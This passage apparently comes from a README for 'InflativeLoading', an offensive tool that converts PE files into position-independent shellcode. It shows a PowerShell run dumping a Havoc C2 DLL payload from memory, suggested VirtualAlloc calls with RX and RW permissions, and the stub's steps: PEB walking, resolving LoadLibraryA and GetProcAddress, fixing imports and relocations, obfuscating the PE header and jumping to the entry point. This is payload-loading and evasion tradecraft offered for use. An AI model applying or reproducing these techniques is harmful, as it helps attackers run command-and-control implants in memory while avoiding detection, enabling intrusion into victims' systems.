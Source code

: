 
And dump Havoc DLL payload from memory:

```powershell
PS C:\dev\inflativeloading> .\DumpPEFromMemory.exe .\havocdll.dll havocdll.bin
[+] The file is a DLL file
[+] Image base of mapped .\havocdll.dll is 0x87fd0000
[+] e_lfanew of mapped .\havocdll.dll is 0x80
[+] imageSize of mapped .\havocdll.dll is 0x1e000
[+] Size of optinalHeader of mapped .\havocdll.dll is 0xf0
[+] Offset of section Header of mapped .\havocdll.dll is 0x188
[+] Size of text section of mapped .\havocdll.dll is 0x18000
[+] Size of other sections of mapped .\havocdll.dll is 0x5000

[!] Suggested memory allocations, please adjust accordingly with other memory allocation APIs and languages

// Allocate memory with RX permission for shellcode stub
LPVOID buffer = VirtualAlloc(NULL, 0x1000, 0x3000, 0x20);
// Allocate memory with RW permission for PE Header
VirtualAlloc(buffer + 0x1000, 0x1000, 0x3000, 0x04);
// Allocate memory with RX permission for text section
VirtualAlloc(buffer + 0x2000, 0x18000, 0x3000, 0x20);
// Allocate memory with RW permission for other sections
VirtualAlloc(buffer + 0x2000 + 0x18000, 0x5000, 0x3000, 0x20);

[+] Data successfully written to havocdll.bin
```

![image](/screenshot/dumper-dll-new.jpg)



### InflativeLoading Script
The script dynamically generates a shellcode stub and prepends it to the dump file. 

The shellcode completes the following tasks:
1. Walk PEB and find kernel32.dll
2. Update the command line
3. Parse kernel32.dll to get the address of LoadLibraryA, GetProcAddress function.
4. Locate the appended dump file with an offset
5. Dynamically fix Import Directory, Base Relocation Table Directory, Delayed Load Import Descriptors Directory, etc.
6. Choose to obfuscate the PE header
7. Transfer the execution to the entry point of the PE file.
8. Exit gracefully
